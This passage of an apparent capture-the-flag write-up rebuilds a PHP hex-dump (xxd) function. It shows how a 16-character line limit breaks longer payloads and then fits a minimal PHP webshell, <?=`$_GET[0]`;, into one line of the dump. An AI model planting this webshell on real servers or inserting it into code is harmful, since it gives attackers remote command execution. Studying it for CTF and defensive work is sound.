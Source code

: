 I created `xxd.php` to test it locally

> `xxd.php`

```php
<?php

# Retrieve parameters from cli


function xxd(string $s): string {
	$out = '';
	$ctr = 0;
	foreach (str_split($s, 16) as $v) {
		$hex_string = implode(' ', str_split(bin2hex($v), 4));
		$ascii_string = '';
		foreach (str_split($v) as $c) {
			$ascii_string .= $c < ' ' || $c > '~' ? '.' : $c;
		}
		$out .= sprintf("%08x: %-40s %-16s\n", $ctr, $hex_string, $ascii_string);
		$ctr += 16;
	}
	return $out;
}

echo xxd($argv[1]);

?>
```

So, if my webshell is more than `16` characters, it will fail

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ductf]
└─$ php xxd.php '<?php echo "Done">' | tee test.php
00000000: 3c3f 7068 7020 6563 686f 2022 446f 6e65  <?php echo "Done
00000010: 223e                                     ">
```

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ductf]
└─$ php test.php
PHP Parse error:  syntax error, unexpected token "echo" in /media/sf_kali-share/ductf/test.php on line 1
```

Google : `shortest php webshell`

> https://github.com/Xib3rR4dAr/shortest-php-webshell/blob/master/0.php

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ductf]
└─$ php xxd.php '<?=`$_GET[0]`;' | tee shortest.php
00000000: 3c3f 3d60 245f 4745 545b 305d 603b       <?=`$_GET[0]`;
```

^425ce9
